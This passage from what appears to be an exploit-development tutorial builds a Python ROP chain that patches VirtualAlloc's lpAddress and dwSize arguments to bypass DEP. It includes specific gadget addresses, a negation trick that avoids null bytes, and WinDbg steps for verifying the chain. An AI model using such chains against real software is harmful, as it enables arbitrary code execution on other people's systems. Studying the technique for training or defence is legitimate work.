 Additionally, since lpAddress needs to point to our shellcode, we can reuse the same gadgets as before and only subtract a different negative value from EAX.

In the previous example, we used the somewhat arbitrary value of -0x210 to align EAX to our shellcode. Since we increased ESI by 4, we need to use -0x20C or 0xfffffdf4 this time, as shown in the updated ROP chain below.

rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x5052f773)) # push eax ; pop esi ; ret
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xfffffdf4)) # -0x20c
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))

The new part of the ROP chain also reuses the write gadget to overwrite the placeholder value in the API skeleton call.
To verify our ROP chain, we execute it. We set a breakpoint on the last gadget like we did in the last section, only this time we must continue execution until it is triggered the third time:
	bp 0x5051cbb6
	g
	g
	g
	dd eax L4


Now we are going to move to dwSize, which we can set to 0x01, since VirtualAlloc will apply the new protections on the entire memory page. The issue is that the value is really a DWORD (0x00000001), so it will contain null bytes.

Once again, we must use a trick to avoid them, and in this case, we can take advantage of another math operation, negation. The NEG1 instruction will replace the value in a register with its two's complement.2

This is equivalent to subtracting the value from zero. When we do that with 0xffffffff (after ignoring the upper DWORD of the resulting QWORD), we get 0x01 
	? 0 - ffffffff


The steps we must perform for dwSize are:
	• Increase the ESI register by four with the increment gadgets to align it with the next placeholder argument in the API skeleton call.
	• Pop the value 0xffffffff into EAX and then negate it.
	• Write EAX onto the stack to patch the dwSize argument.

rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret 
rop += pack("<L", (0xffffffff)) # -1 value that is negated
rop += pack("<L", (0x50527840)) # neg eax ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))
